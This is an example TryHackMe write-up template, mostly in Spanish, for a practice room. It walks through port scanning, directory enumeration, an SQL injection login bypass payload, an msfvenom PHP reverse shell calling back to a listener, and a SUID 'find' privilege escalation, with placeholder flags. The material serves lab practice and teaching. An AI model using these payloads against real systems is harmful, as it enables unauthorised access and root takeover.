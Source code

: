 # Example Room - Getting Started

**Difficulty:** Easy  
**Room URL:** https://tryhackme.com/room/example  
**Date Completed:** 22/10/2025

---

## Description

Este es un ejemplo de write-up para demostrar la estructura y formato recomendado. En una sala real de TryHackMe, aquí describirías brevemente de qué trata el desafío.

---

## Reconnaissance

### Initial Scan

```bash
nmap -sC -sV -oN nmap_scan.txt 10.10.10.10
```

**Results:**
- Puerto 22 (SSH) abierto
- Puerto 80 (HTTP) abierto - Apache 2.4.41
- Puerto 3306 (MySQL) abierto

---

## Enumeration

### Web Server (Port 80)

```bash
gobuster dir -u http://10.10.10.10 -w /usr/share/wordlists/dirb/common.txt
```

**Findings:**
- `/admin` - Panel de administración
- `/uploads` - Directorio de archivos subidos
- `/config.php` - Archivo de configuración (acceso denegado)

---

## Exploitation

### SQL Injection en formulario de login

**Steps:**

1. Identificar vulnerabilidad SQLi en el campo de usuario
```bash
# Payload usado
admin' OR '1'='1' --
```

2. Obtener acceso al panel de administración
```bash
# Credenciales encontradas
Usuario: admin
Password: [obtenido mediante SQLi]
```

3. Subir reverse shell mediante función de upload
```bash
# Crear reverse shell
msfvenom -p php/reverse_php LHOST=10.8.0.1 LPORT=4444 -f raw > shell.php
```

4. Establecer listener y ejecutar shell
```bash
nc -lvnp 4444
# Navegar a http://10.10.10.10/uploads/shell.php
```

---

## Post-Exploitation

### Privilege Escalation

```bash
# Encontrar binarios con SUID
find / -perm -u=s -type f 2>/dev/null

# Explotar /usr/bin/find
find . -exec /bin/sh -p \; -quit
```

### Flags

- **User Flag:** `THM{example_user_flag_here}`
- **Root Flag:** `THM{example_root_flag_here}`

---

## Tools Used

- **Nmap** - Escaneo de puertos y servicios
- **Gobuster** - Enumeración de directorios web
- **Msfvenom** - Generación de reverse shell
- **Netcat** - Listener para conexión reversa

---

## Key Learnings

- Siempre verificar sanitización de inputs en formularios web
- La enumeración exhaustiva es clave para encontrar vectores de ataque
- Los binarios SUID pueden ser aprovechados para escalada de privilegios
- Mantener un registro detallado facilita el proceso de write-up

---

## References

- [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- [GTFOBins - find](https://gtfobins.github.io/gtfobins/find/)
- [Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
